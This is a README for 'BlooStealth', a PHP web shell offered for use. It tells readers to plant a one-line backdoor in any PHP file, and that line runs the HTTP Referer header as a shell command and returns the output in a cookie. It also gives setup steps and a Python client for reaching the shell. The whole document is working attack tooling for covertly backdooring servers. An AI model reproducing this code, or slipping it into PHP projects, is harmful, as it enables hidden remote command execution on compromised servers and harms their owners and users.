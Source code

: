 # BlooStealth
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/bloos3rpent/bloostealth && cd bloostealth
```

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```

```bash
python3 ninja.py
```

Now we can access it by inputting the bloostealth URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[Bloos3rpent](https://github.com/bloos3rpent)
